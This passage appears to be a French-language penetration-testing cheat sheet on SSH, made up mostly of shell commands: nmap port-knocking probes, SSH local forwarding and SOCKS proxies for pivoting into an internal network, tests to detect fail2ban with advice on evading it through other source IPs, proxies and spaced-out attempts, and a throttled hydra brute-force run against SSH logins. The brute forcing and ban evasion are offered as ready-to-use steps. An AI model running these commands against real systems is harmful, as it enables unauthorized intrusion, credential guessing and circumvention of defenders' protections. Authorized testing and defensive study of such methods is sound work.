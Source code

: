 ### Port Knocking Detection
```bash
# 1. Si SSH semble filtré, tester port knocking
nmap -p 1000,2000,3000,22 target.com

# 2. Script automatique port knocking
#!/bin/bash
for port in 1234 5678 9999; do
    nmap -p $port target.com --max-retries 0
    sleep 1
done
nmap -p 22 target.com
```

### SSH Tunneling Reconnaissance
```bash
# 1. Si accès SSH obtenu, découvrir réseau interne
ssh user@target.com "ip route show"
ssh user@target.com "netstat -rn"

# 2. Port forwarding pour pivoting
ssh -L 8080:internal-server:80 user@target.com
# Accès via localhost:8080

# 3. SOCKS proxy pour pivoting
ssh -D 1080 user@target.com
# Configure proxy SOCKS 127.0.0.1:1080
```

## 🛡️ Phase 6 : Détection de Protections

### Fail2ban Detection
```bash
# 1. Test pour détecter fail2ban
for i in {1..5}; do
    ssh wrong_user@target.com
    sleep 1
done

# Si IP bannée, attendre et tester depuis autre IP

# 2. Éviter fail2ban
# Utiliser différentes IP sources
# Étaler les tentatives dans le temps
# Utiliser proxies/VPN
```

### Rate Limiting
```bash
# 1. Test de limitation de taux
time (ssh user@target.com &)
# Mesurer délai de réponse

# 2. Adaptation selon limitations
hydra -l admin -P passwords.txt -t 1 -w 5 target.com ssh
# 1 thread, 5 secondes d'attente
```
